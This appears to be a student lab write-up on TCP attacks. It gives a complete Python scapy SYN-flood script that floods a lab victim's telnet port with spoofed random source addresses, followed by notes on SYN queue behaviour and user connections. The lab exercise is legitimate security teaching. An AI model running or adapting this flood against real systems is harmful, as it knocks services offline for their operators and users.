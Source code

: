 # TCP Protocol and Attacks

## Task 1.1 Launching the Attack Using Python

Creating synflood.py

#### Script used:
``` python 
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")            #IP of victim
tcp = TCP(dport=23, flags='S')     #Port of victim
pkt = ip/tcp

while True:
        pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
        pkt[TCP].sport = getrandbits(16) # source port
        pkt[TCP].seq = getrandbits(32) # sequence number
        send(pkt, verbose = 0)
```

Receiving of SYN Requests:

![alt text](image-2.png)

Even when reducing the size of queue, other users were able to create a telnet connection to the victim.
The amount of SYN request reduced from 64 (Limit 80) to 16 (Limit 20).

Observation:
While user1 could build a connection, user 2 was not able to.

![alt text](image-3.png)

After  using the following command, none od the users could connect.

# ip tcp_metrics flush

![alt text](image-4.png)

